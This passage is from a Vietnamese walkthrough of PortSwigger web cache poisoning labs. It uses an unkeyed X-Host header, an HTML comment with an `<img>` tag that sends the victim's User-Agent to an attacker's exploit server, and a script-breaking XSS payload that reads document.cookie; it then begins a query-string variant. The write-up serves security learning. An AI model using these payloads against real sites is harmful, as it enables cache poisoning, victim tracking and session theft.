 >Scan bằng **Param Miner** ta xác định được 1 unkeyed header `X-Host`:
>![image](https://hackmd.io/_uploads/BkEF_oZvR.png)

>Ngoài ra, giá trị của` X-Host` được chèn vào `src` của tag script ở respone trả về:
>![image](https://hackmd.io/_uploads/rJWPFoZD0.png)
>![image](https://hackmd.io/_uploads/BkxdFibD0.png)

>Như vậy ta đã xác định được unkeyed header và ta có thể chèn XSS payload ở đó!

>Trang web còn cho biết `User-Agent` là 1 **cache key** nhờ vào header `Vary` tại response. Bây giờ ta chỉ cần đi tìm `User-Agent` của nạn nhân để thực hiện attack:
>![image](https://hackmd.io/_uploads/Hy_Cti-w0.png)

>Bên trong mỗi bài post có chức năng comment, và cho phép comment ở định dạng HTML:
>![image](https://hackmd.io/_uploads/HkBI5sbvA.png)

>Submit comment:
>![image](https://hackmd.io/_uploads/ryt5qoWDC.png)

>Đến đây, ta có thể sử dụng tag `<img>` với thuộc tính `src` bên trong để chèn payload, khi victim xem comment thì sẽ request đến exploit-server ta controll:
>`<img src="https://<EXPLOIT-SERVER>">`
![image](https://hackmd.io/_uploads/B1O12ibPR.png)

>Xem lại log thì ta lấy được `User-Agent` của victim:
>![image](https://hackmd.io/_uploads/BkLXnjZv0.png)

>Lấy `User-Agent` đó kèm theo `X-Host` là XSS payload:
>`test.com"></script><script>alert(document.cookie);</script>`, ta đã có thể poison cache thành công với victim đã xác định. Gửi cho tới khi `X-Cache: hit`:
>![image](https://hackmd.io/_uploads/HJEFTsZvA.png)

>**"Show respone in browser"** và thấy thực thi `alert()` thành công:
>![image](https://hackmd.io/_uploads/rkw1AsWwA.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/SyfxAoWwR.png)

# **5. Lab: [Web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) via an unkeyed query string**
>This lab is vulnerable to web cache poisoning because the query string is unkeyed. A user regularly visits this site's home page using Chrome.
To solve the lab, poison the home page with a response that executes `alert(1)` in the victim's browser.
![image](https://hackmd.io/_uploads/BJkZcAEPC.png)

>Gửi request đến `/` với query string `?test=1` thì thấy cả URL chứa query string được gán vào `href` của link canonical => ta có thể sử dụng XSS. Ngoài ra, khi ta thay đổi giá trị của query string sang `?test123=1` thì respone vẫn trả về `X-Cache: hit` chứng tỏ query string không thuộc `cache keys`.
>![image](https://hackmd.io/_uploads/Byxel1rwA.png)
![image](https://hackmd.io/_uploads/HJD-x1rPR.png)
